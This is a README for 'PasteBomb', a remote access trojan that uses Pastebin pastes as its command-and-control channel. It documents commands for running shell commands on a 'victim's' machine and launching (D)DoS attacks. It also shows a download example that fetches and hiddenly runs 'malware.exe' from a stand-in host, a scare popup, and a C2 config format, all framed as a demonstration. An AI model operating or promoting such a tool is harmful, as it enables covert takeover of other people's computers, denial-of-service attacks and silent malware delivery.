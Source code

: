 # PasteBomb

PasteBomb is a simple, yet powerful, Remote Administration Trojan (RAT) that allows you to execute terminal commands, send (D)DoS attacks, download files, and open messages in your victim's browser. Without requiring a traditional Command-and-Control (C2) server, PasteBomb utilizes a Pastebin service for communication.

**Important**: PasteBomb is still in version 0.01. It is not meant for penetration testing at this stage but serves as a demonstration of a RAT that uses Pastebin as a C2 server.

## Usage

### Commands

- `cmd`: Execute terminal commands on the victim's machine.
    - **Usage**: 
      ```plaintext
      cmd <your command here>
      ```
      
- `dos`: Send a (D)DoS attack to the target.
    - **Usage**: 
      ```plaintext
      dos <IP/domain> <port> <duration>
      ```
      Example:
      ```plaintext
      dos 192.168.1.1 80 60
      ```
      This will target IP `192.168.1.1` on port `80` for 60 seconds.

- `download`: Download files to the victim's computer with optional arguments to `RUN` and `HIDE` the file.
    - **Usage**: 
      ```plaintext
      download <direct download link> <destination path> <args (RUN, HIDE)>
      ```
      Example:
      ```plaintext
      download http://example.com/malware.exe C:\Users\Victim\malware.exe RUN,HIDE
      ```
      This will download and run a file while hiding it.

- `popmsg`: Open a pop-up message in the victim's browser.
    - **Usage**: 
      ```plaintext
      popmsg <message>
      ```
      Example:
      ```plaintext
      popmsg "Your system has been compromised!"
      ```
      This will show a message to the victim.

### Config

The configuration for PasteBomb is defined in JSON format. The configuration contains one required parameter (`url`) and one optional (`backups`).

- `url`: The URL of the main pastebin link (required).
- `backups`: A list of backup pastes that can be used to fetch commands (optional).

#### Example Config:
```json
{
    "url": "http://yourpastebinservice.com/command",
    "backups": [
        "http://yourpastebinservice.com/command2",
        "http://yourpastebinservice.com/command3"
    ]
}
```
#### OS Support:
PasteBomb currently supports the following operating systems:

macOS (Darwin)
Windows
Linux
It can be built and executed on these platforms with no major issues.







